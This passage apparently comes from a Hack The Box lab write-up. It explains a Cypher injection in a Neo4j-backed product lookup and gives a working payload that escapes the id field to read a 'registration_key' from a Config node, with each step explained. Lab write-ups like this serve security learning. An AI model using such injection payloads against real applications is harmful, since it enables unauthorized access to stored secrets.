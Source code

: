 ![Neo4j Issue](/assets/img/sorcery-htb-season8/sorcery-htb-season8_neo4j_issue.png)

### Cypher Injection

When connection all the code and the issue, we will get this query when we view the product.
```sql
MATCH (result: Product { id: "88b6b6c5-a614-486c-9d51-d255f47efb4f" }) RETURN result
```

Since the `id` is user-controlled, we can inject a payload here, together with the one we want to get is `registration_key`. <br>
&rarr; Let's craft query to grab that.

```sql
"}) OPTIONAL MATCH (c:Config) RETURN result { .*, description: coalesce(c.registration_key, result.description) }//
```

This query works like this: <br>
- `"})` to escape `id = "   "` and object `{}` and also to close the `MATCH` clause.
- `OPTIONAL MATCH` will always run and return `c = null` in case of **node** maybe not exist and also have a fallback to `result.description`.
- `coalesce` will return the first non-null value. So if `c.registration_key` is exist, it will return the value of `c.registration_key` otherwise it use `result.description` to alternate.
- `//` to comment out the rest of the query.

```sql
MATCH (result: Product { id: "88b6b6c5-a614-486c-9d51-d255f47efb4f"}) OPTIONAL MATCH (c:Config) RETURN result { .*, description: coalesce(c.registration_key, result.description) }// RETURN result
```
